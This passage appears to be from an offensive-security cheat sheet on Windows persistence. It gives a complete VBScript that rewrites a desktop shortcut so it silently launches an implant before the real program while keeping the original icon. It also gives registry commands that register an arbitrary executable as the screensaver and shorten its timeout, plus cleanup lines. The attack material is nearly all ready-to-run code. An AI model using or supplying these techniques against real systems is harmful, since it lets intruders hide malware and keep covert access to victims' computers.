 #### Run the following VBS script
- Preserves the original functionality. Will replace link with `newTarget` which will run the implant and then the orginal program
- Run it with `wscript <SCRIPT>`
```
' CONFIGURATION
implant = "C:\implant.exe"
newTarget = "C:\putty.vbs"
lnkName = "putty.exe.lnk"

' helper vars
set WshShell = WScript.CreateObject("WScript.Shell" )
strDesktop = WshShell.SpecialFolders("Desktop" )
set oShellLink = WshShell.CreateShortcut(strDesktop & "\" & lnkName )
origTarget = oShellLink.TargetPath
origArgs = oShellLink.Arguments
origIcon = oShellLink.IconLocation
origDir = oShellLink.WorkingDirectory

' persistence implantation
Set FSO = CreateObject("Scripting.FileSystemObject")
Set File = FSO.CreateTextFile(newTarget,True)
File.Write "Set oShell = WScript.CreateObject(" & chr(34) & "WScript.Shell" & chr(34) & ")" & vbCrLf
File.Write "oShell.Run " & chr(34) & implant & chr(34) & vbCrLf
File.Write "oShell.Run " & chr(34) & oShellLink.TargetPath & " " & oShellLink.Arguments & chr(34) & vbCrLf
File.Close

oShellLink.TargetPath = newTarget
oShellLink.IconLocation = origTarget & ", 0"
oShellLink.WorkingDirectory = origDir
oShellLink.WindowStyle = 7
oShellLink.Save

```

### Screensaver
- Might not work if screensaver is already set over GPO

#### Query and set reg key
```
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "<PATH TO EXE>" /f
removal:
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "" /f
```

#### Query and change screensave timeout
- Time in seconds
```
reg query "HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut" 

reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "10" /f
```
- Cleanup `reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "" /f`
